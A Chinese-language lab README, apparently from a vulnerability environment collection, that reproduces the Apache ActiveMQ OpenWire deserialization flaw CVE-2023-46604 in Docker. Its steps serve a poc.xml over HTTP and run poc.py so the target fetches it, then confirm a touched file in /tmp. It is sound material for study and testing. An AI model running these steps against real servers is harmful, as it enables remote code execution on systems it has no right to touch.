

# Apache ActiveMQ OpenWire 协议反序列化命令执行漏洞（CVE-2023-46604）

Apache ActiveMQ 是美国阿帕奇（Apache）软件基金会所研发的一套开源的消息中间件，它支持Java消息服务、集群、Spring Framework等。

OpenWire协议在ActiveMQ中被用于多语言客户端与服务端通信。在Apache ActiveMQ 5.18.2版本及以前，OpenWire协议通信过程中存在一处反序列化漏洞，该漏洞可以允许具有网络访问权限的远程攻击者通过操作 OpenWire 协议中的序列化类类型，导致代理的类路径上的任何类实例化，从而执行任意命令。

参考链接：

- <https://activemq.apache.org/news/cve-2023-46604>
- <https://xz.aliyun.com/t/12929>
- <https://boogipop.com/2023/11/03/Apache%20ActiveMQ%20CVE-2023-46604%20RCE%20%E5%88%86%E6%9E%90/>
- <https://forum.butian.net/share/2566>

## 环境搭建

ActiveMQ运行后，默认监听如下两个端口：

| 默认端口      | 默认条件      |
|-----------|-----------|
| 8161  web | 需配置才可远程访问 |
| 61616 tcp | 远程访问      |

反序列化漏洞出现在61616端口中。

执行如下命令启动一个ActiveMQ 5.17.3版本服务器：

```
docker compose up -d
```

服务启动后，访问`http://your-ip:8161`检查服务是否运行成功。但实际上利用该漏洞，并不需要能够访问8161端口。

## 漏洞复现

首先，启动一个HTTP反连服务器，其中包含我们的[poc.xml](poc.xml)：

```shell
python3 -m http.server 6666
```

然后，执行[poc.py](poc.py)，传入的三个参数分别是目标服务器地址、端口，以及包含poc.xml的反连平台URL：

```shell
python3 poc.py target port http://ip of http server/poc.xml
```

执行完成后，进入ActiveMQ容器：

```
docker exec cve-2023-46604-activemq-1 ls -l /tmp
```

可见，`touch /tmp/activeMQ-RCE-success`已经被成功执行：


